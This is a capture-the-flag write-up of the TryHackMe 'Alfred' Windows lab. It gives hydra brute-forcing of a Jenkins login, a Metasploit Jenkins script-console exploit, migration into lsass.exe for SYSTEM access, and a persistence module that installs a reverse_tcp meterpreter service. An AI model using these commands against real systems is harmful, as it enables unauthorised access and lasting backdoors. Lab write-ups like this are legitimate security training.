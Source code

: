 ```yaml
---
title: Alfred - Easy THM
date: 2023-11-01 12:01:23 +/-0800 
categories: [writeup, TryHackMe] 
writeup: :title
permalink: /alfred 
tags: [Command injection]
---
```


- OS: windows
- Difficulty: easy
- Author: talace

## Scanning 👀
### threader3000.py
```
python3 threader3000.py

Port 80 is open
Port 3389 is open
Port 8080 is open
```

### Nmap scan
```
nmap -p80,3389,8080 -sV -sC -T4 -Pn -oA 10.10.18.104 10.10.18.104

PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
|   Target_Name: ALFRED
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
```
## Enumeration 🤖
### Jenkins enumeration
#### use hydra to brute force login
```
hydra -s 8080 -L $userfile -P $passfile $target_ip http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' -f -o rockyou.txt

FOUND: admin:admin
```
## Exploit ⚒️
### Exploit with metasploit
```
use exploit/multi/http/jenkins_script_console

set LHOST 10.8.x.x
set TARGETURI /
set RPORT 8080
set RHOSTS 10.10.x.x
set username admin
set password admin
run

meterpreter >
```
Now that we have a session open, let's elevate our privileges!

## Privilege escalation 👺
### Switch process for more stable meterpreter stable, because my process was on x86 and i need on x64.
#### I'm using lsaas.exe process, so i will be able to dump hash and do more actions for my post-exploit
```
ps 

676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
```
#### Migrate to it
```
meterpreter > migrate 676
```
### Now that we have a stable meterpreter..
#### Let's retrieve user.txt 🤠
```
meterpreter > search -f user.txt

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\bruce\Desktop\user.txt  32            2019-10-25 18:22:36 -0400
```
#### Now root.txt! 😼
```
meterpreter > search -f root.txt

Path                                 Size (bytes)  Modified (UTC)
----                                 ------------  --------------
c:\Windows\System32\config\root.txt  70            2019-10-26 07:36:00 -0400
```
## Post-exploitation 🐼
### Use local persistance module from Metasploit 
#### Creating a new services in windows that will send a revershell
```
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set lport <lport>
set lhost <lhost>
set session <id>
```

## Resources 📒
Article: [metasploit-module-for-persistence](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/local/persistence_service)